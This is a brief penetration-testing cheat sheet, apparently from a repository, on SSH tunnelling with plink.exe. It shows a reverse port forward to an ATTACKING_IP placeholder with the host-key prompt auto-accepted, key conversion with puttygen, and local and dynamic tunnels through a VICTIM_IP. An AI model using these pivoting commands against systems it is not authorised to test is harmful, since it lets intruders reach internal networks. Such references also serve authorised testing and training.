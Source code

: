 ## It's a windows command line version of the PuTTY SSH client.

### cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N

### Convert keys with puttygen: puttygen KEY -o KEY.ppk

## Local SSH Tunneling 

 - plink.exe -L PORT:TARGET_IP:TARGET_PORT USER@VICTIM_IP

### Then browse to: 127.0.0.1:PORT

## Dynamic SSH Tunneling

 - plink.exe -D PORT USER@VICTIM_IP (Execute on target)
